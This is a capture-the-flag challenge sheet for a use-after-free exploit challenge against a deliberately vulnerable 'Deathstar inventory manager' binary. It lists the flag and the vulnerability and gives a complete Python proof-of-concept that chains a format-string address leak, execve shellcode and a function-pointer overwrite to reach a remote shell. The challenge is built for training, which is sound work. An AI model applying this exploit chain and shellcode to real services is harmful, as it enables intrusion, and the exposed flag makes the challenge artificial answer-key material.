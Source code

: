 Challenge Data:

| metadata |  |
|--- | --- |
| Developer Name(s) | Luke |
| Best Contact Slack handle / Email address | Luke (WACTF Slack) / luke.healy@cybercx.com.au |
| Challenge Category | Exploit |
| Challenge Tier | 5 |
| Challenge Type | Container and file (deathstar_inventory_manager_v0.1_experimental_donotuse.elf) |

| Player facing |  |
|--- | --- |
|Challenge Name | Fully Armed and Operational Battle Station |
|Challenge Description | Rebel hackers have stolen some secret plans. They've recovered a file named 'deathstar_inventory_manager_v0.1_experimental_donotuse.elf' which was found to be running on the new IOT enabled DeathStar-ng. The rebels recommend setting up a ubuntu:18.04 docker container for experimenting, also the production binary is being run like so: ncat -lk 1300 -e /binary ... whatever that means. Good luck, we're counting on you. (The intent here is for you to get rce, but the thing is chroot jailed so only a few binaries like sh, ls and cat are present.) | 
|Challenge Hint 1 | Probably a bunch of vulns in this, but there is definitely a UAF. |
|Challenge Hint 2 | Use the source Luke... https://github.com/LukeHealy/Deathstar-ng |

| Admin Facing | <> |
| --- | --- |
| Challenge Flag| WACTF{Computers were a mistake.} |
| Challenge Vuln| Use after free allows overwriting of function pointer and DEP is disabled. |
| Docker Usage Idle | 0% CPU / 2MB RAM |
| Docker Usage Expected Peak | 0.4% CPU / 2MB RAM |

Challenge PoC
~~~python
from __future__ import print_function
import socket
import time
import sys
import subprocess
from binascii import unhexlify
from binascii import hexlify

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("127.0.0.1", 1300))

def convert_to_hex_endian(addr):
    addr_e = ""
    if len(addr) % 2 != 0:
        addr = "0" + addr
    for i in range(0, len(addr), 2):
        addr_e = (addr[i] + addr[i+1]) + addr_e
    
    return unhexlify(addr_e)

def send(msg):
    sock.sendall(msg + b"\n")
    time.sleep(0.1)
    received = sock.recv(1024)
    #print(received)
    return received

def parse_leaked_addr(reply):
    #print(reply)
    addr = reply.split("\n")[0]
    addr2 = addr.split("0x")[5]
    return addr2

print("Adding first ship.")
print("Performing format string attack on ship name field.")
send(b"1")
send(b"%p%p%p%p%p%p%p%p%p")
send(b"8")
send(b"2")
addr2 = parse_leaked_addr(send("0"))
print("Leaked address of the ship: 0x" + addr2)
print("Add 8 to it.")
addr2 = hex(int(addr2, 16) + 8)[2:]
shellcode = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
call_addr = convert_to_hex_endian(addr2)
print("The leaked address is the one we want to call later: " + addr2)
print("Adding second ship")
send(b"1")
send(b"BBBB")
send(b"8")
print("Freeing the first ship.")
send(b"3")
send(b"0")
print("Performing use after free to write shellcode to first ship (now the banner).")
send(b"4")
send(b"\x90" * 8 + shellcode)
print("Freeing the second ship.")
send(b"3")
send(b"1")
print("Performing use after free to overwrite function pointer to point to first ship.")
send(b"4")
send(b"A" * 24 + call_addr)
print("Triggering call to function pointer of second ship.")
send(b"2")
sock.sendall(b"1\n")
print("Dropping into psuedo shell. (Don't run commands that have no output.)")

try:
    while True:
        cmd = raw_input("$ ")
        print(send(bytes(cmd)))
except:
    sock.close()
~~~
---
